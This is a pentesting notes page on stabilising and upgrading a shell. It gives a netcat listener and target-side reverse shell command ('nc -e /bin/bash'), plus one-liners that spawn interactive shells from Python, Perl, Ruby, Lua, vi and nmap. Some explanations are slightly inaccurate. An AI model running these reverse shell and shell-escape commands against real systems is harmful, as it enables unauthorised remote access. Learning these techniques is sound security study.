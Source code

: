 # 🧛‍♂️ Stabilize & Elevate a shell

First, it's good to have knowledge about what kind of way you can pop a shell:

{% content-ref url="../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md" %}
[reverse-shell-and-bind-shell.md](../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>

If you have a nc shell tab auto complete, to up arrow and formatting problems →

**Listener:**

```
nc -nlvp 80
```

**Target:**&#x20;

```
nc -e /bin/bash 127.0.0.1 80
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First technique with python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
#OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

this relies on the target system having python

you can utilize other commands:

1.  Python:

    ```python
    echo os.system('/bin/bash')
    ```

    This Python code uses the `os.system()` function to execute `/bin/bash`.
2.  Bourne Shell:

    ```
    /bin/sh -i
    ```

    This command executes the Bourne shell `/bin/sh` in interactive mode (`-i`).
3.  Using script utility:

    ```
    script -qc /bin/bash /dev/null
    ```

    This command uses the `script` utility to run `/bin/bash` with output suppression (`-q`) and input redirection from `/dev/null`.
4.  Perl:

    ```
    perl -e 'exec "/bin/sh";'
    ```

    &#x20;In Perl, this command executes `/bin/sh` using the `exec` function.
5.  Ruby:

    ```
    exec "/bin/sh"
    ```

    This Ruby command uses the `exec` function to execute `/bin/sh`.
6.  Lua:

    ```
    os.execute('/bin/sh')
    ```

    In Lua, this command uses `os.execute()` to execute `/bin/sh`.
7.  Ruby IRB:

    ```
    exec "/bin/sh"
    ```

    This command is executed in the Ruby IRB (Interactive Ruby) shell and uses `exec` to execute `/bin/sh`.
8.  vi:

    ```
    :!bash
    ```

    In the vi editor, this command executes `bash` shell.
9.  vi (setting shell):

    ```
    :set shell=/bin/bash:shell
    ```

    This sets the shell to `/bin/bash` in vi.
10. nmap:

    ```
    !sh
    ```

    In nmap, the `!` is used to execute shell commands. Here it's running `/bin/sh`.

